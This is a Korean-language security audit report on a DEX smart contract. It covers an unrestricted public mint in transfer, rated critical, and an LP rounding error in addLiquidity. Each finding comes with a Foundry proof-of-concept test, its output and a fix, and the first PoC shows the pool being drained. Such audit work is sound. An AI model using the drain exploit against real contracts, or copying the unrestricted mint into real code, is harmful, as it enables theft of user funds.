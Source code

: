 # 1. DEX - 잘못된 transfer 접근 범위 설정

## 설명

<aside>

### **키워드 : Misconfiguration**

### **심각도 : Critical**

토큰을 원하는 만큼 민팅하는 함수인 transfer의 접근 범위가 public이며 별도의 제한이 존재하지 않는다.

</aside>

```solidity
function transfer(
        address to,
        uint256 lpAmount
    ) public override(ERC20, IDex) returns (bool) {
        _mint(to, lpAmount);
        return true;
    }
```

public으로 설정되어 있음에도 불구하고 별도의 검증이 존재치 않아 누구든 실행하여 LP 토큰을 발행받을 수 있다.

## PoC

```solidity
function testPoC() external {
        uint256 lp = dex.addLiquidity(1000 ether, 1000 ether, 0);
        vm.startPrank(address(0x01));
        {
            dex.transfer(address(0x01), lp * 9999);
            console.log(
                "balance : ",
                tokenX.balanceOf(address(0x01)),
                tokenY.balanceOf(address(0x01))
            );
            dex.removeLiquidity(lp, 0, 0);
            console.log(
                "balance : ",
                tokenX.balanceOf(address(0x01)),
                tokenY.balanceOf(address(0x01))
            );
        }
        vm.stopPrank();
    }
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[PASS] testPoC() (gas: 297276)
Logs:
  balance :  0 0
  balance :  100000000000000000 100000000000000000
```

원하는 만큼 토큰을 발행받은 이후 유동성을 제거하여 DEX의 토큰을 모두 탈취할 수 있다.

## 파급력

LP 토큰을 제한 없이 무한정 찍어낼 수 있으며, 어떠한 조건도 필요 없기에 위험도는 매우 높다고 할 수 있다.

## 해결방법

```solidity
function transfer(
        address to,
        uint256 lpAmount
    ) public override(ERC20, IDex) returns (bool) {
        require(msg.sender == address(this), "permission denied");
        _mint(to, lpAmount);
        return true;
    }
```

다음과 같이 DEX 컨트랙트에서만 호출 가능하게 설정하거나, private으로 설정하여 접근 범위를 제한해야 한다.

# 2. DEX - addLiquidity 초기 공급 시 round down 발생

## 설명

<aside>

### **키워드 : Numeric issue(Round down)**

### **심각도 : Low**

초기 유동성 공급 과정에서 내림(round down)이 발생할 수 있고, 이로 인해 LP토큰 발행량과 실제 유동성 풀의 싱크가 깨지게 되어 이후 유저들 또한 손해를 볼 수 있다.

</aside>

```solidity
uint public constant MINIMUM_LIQUIDITY = 10**3;

if (_totalSupply == 0) {
            LPTokenAmount = _sqrt((tokenXAmount + reserveX) * (tokenYAmount + reserveY) / MINIMUM_LIQUIDITY);
        }
```

초회 공급시 공급된 토큰들의 전체 가치를 `MINIMUM_LIQUIDITY` 상수로 나누어 저장한다. 이 과정에서 999 wei 이하는 모두 삭제되어 LP Token이 발행된다.

따라서 초회 유동성 공급시 공급량에 비해 적은 양의 토큰을 발급받게 된다.

```solidity
LPTokenAmount = _min(_totalSupply * tokenXAmount / reserveX, _totalSupply * tokenYAmount / reserveY);
```

이후 유동성을 공급하는 유저들도 LP토큰 발행량과 유동성 풀에 존재하는 수치의 싱크가 맞지 않기에(유동성 풀이 round down되어 사라진 만큼 항상 큰 상태가 유지됨) 유동성을 제거할 때 토큰의 가치가 적게 책정된다.

## PoC

```solidity
function testPoC() external {
        uint lp1 = dex.addLiquidity(25 ether, 25 ether, 0);
        emit log_named_uint("LP1", lp1);

        tokenX.transfer(address(0x01), 100 ether);
        tokenY.transfer(address(0x01), 100 ether);

        vm.startPrank(address(0x01));
        {
            tokenX.approve(address(dex), 100 ether);
            tokenY.approve(address(dex), 100 ether);
            uint lp2 = dex.addLiquidity(10 ether, 10 ether, 0);
            emit log_named_uint("LP2", lp2);
            (uint rx, uint ry) = dex.removeLiquidity(lp2, 0, 0);
            emit log_named_uint("lp2:rx", rx);
            emit log_named_uint("lp2:ry", ry);
        }
        vm.stopPrank();
        (uint rx, uint ry) = dex.removeLiquidity(lp1, 0, 0);
        emit log_named_uint("rx", rx);
        emit log_named_uint("ry", ry);
    }
```

```solidity
Running 1 test for test/Dex.t.sol:DexTest
[PASS] testPoC() (gas: 311714)
Logs:
  LP1: 790569415042094832
  LP2: 316227766016837932
  lp2:rx: 9999999999999999981
  lp2:ry: 9999999999999999981
  rx: 25000000000000000019
  ry: 25000000000000000019
```

발행된 토큰 수와 유동성 풀이 일치하지 않기에 공급량을 제거할 때 토큰이 실제 가치보다 낮게 책정됨을 알 수 있다.

## 파급력

초기 공급량(두 토큰 공급량의 곱, `(tokenXAmount + reserveX) * (tokenYAmount + reserveY)` )이 10^3의 제곱수가 아니면 발생할 수 있는 버그이다. 따라서 발현 난이도는 매우 낮다고 볼 수 있다.

이후 LP 토큰을 교환하는 모든 유저들에게 손해가 고스란히 가게 되어 있는 구조이지만 이를 통해 손해만 볼 뿐 추가적인 이득을 취할 수는 없기에 위험도는 낮음으로 책정하였다.

## 해결 방법

```solidity
if (_totalSupply == 0) {
            LPTokenAmount = _sqrt(
                ((tokenXAmount + reserveX) * (tokenYAmount + reserveY))
            );
        }
```

`MINIMUM_LIQUIDITY` 는 필요 없으며 round down만 발생시키는 연산이므로 제거한다.
